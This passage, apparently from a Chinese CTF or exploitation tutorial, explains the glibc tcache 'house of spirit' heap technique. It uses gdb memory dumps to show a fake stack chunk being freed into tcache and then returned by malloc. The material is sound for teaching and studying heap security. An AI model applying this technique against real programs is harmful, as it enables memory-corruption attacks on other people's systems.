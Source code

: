 tcache 在释放堆块时没有对其前后堆块进行合法性校验，只需要本块对齐（2*SIZE_SZ）就可以将堆块释放到 tcache 中，而在申请时，tcache 对内部大小合适的堆块也是直接分配的，导致常见的 house_of_spirit 可以延伸到 smallbin，而且比以前更加简单。

在栈上构造 fake chunk，大小为 smallbin：

```text
gdb-peda$ x/10gx fake_chunk
0x7fffffffdad0: 0x0000000000000000      0x0000000000000110  <-- fake chunk
0x7fffffffdae0: 0x4141414141414141      0x4141414141414141
0x7fffffffdaf0: 0x4141414141414141      0x4141414141414141
0x7fffffffdb00: 0x4141414141414141      0x4141414141414141
0x7fffffffdb10: 0x4141414141414141      0x4141414141414141
```

free 掉之后，该 fake chunk 被放进 tcache bin：

```text
gdb-peda$ x/10gx fake_chunk
0x7fffffffdad0: 0x0000000000000000      0x0000000000000110  <-- fake chunk [be freed]
0x7fffffffdae0: 0x0000000000000000      0x4141414141414141
0x7fffffffdaf0: 0x4141414141414141      0x4141414141414141
0x7fffffffdb00: 0x4141414141414141      0x4141414141414141
0x7fffffffdb10: 0x4141414141414141      0x4141414141414141
gdb-peda$ vmmap heap
Start              End                Perm      Name
0x0000555555756000 0x0000555555777000 rw-p      [heap]
gdb-peda$ x/30gx 0x0000555555756000+0x10
0x555555756010: 0x0000000000000000      0x0100000000000000  <-- counts
0x555555756020: 0x0000000000000000      0x0000000000000000
0x555555756030: 0x0000000000000000      0x0000000000000000
0x555555756040: 0x0000000000000000      0x0000000000000000
0x555555756050: 0x0000000000000000      0x0000000000000000
0x555555756060: 0x0000000000000000      0x0000000000000000
0x555555756070: 0x0000000000000000      0x0000000000000000
0x555555756080: 0x0000000000000000      0x0000000000000000
0x555555756090: 0x0000000000000000      0x0000000000000000
0x5555557560a0: 0x0000000000000000      0x0000000000000000
0x5555557560b0: 0x0000000000000000      0x0000000000000000
0x5555557560c0: 0x0000000000000000      0x00007fffffffdae0  <-- entries
0x5555557560d0: 0x0000000000000000      0x0000000000000000
0x5555557560e0: 0x0000000000000000      0x0000000000000000
0x5555557560f0: 0x0000000000000000      0x0000000000000000
```

最后 malloc 即可将 fake chunk 取出来：

```text
gdb-peda$ p b
$1 = (unsigned long long *) 0x7fffffffdae0
gdb-peda$ p a
$2 = (unsigned long long *) 0x7fffffffdae0
gdb-peda$ x/10gx fake_chunk
0x7fffffffdad0: 0x0000000000000000      0x0000000000000110  <-- new chunk
0x7fffffffdae0: 0x4242424242424242      0x4242424242424242
0x7fffffffdaf0: 0x4242424242424242      0x4242424242424242
0x7fffffffdb00: 0x4242424242424242      0x4242424242424242
0x7fffffffdb10: 0x4242424242424242      0x4242424242424242
```

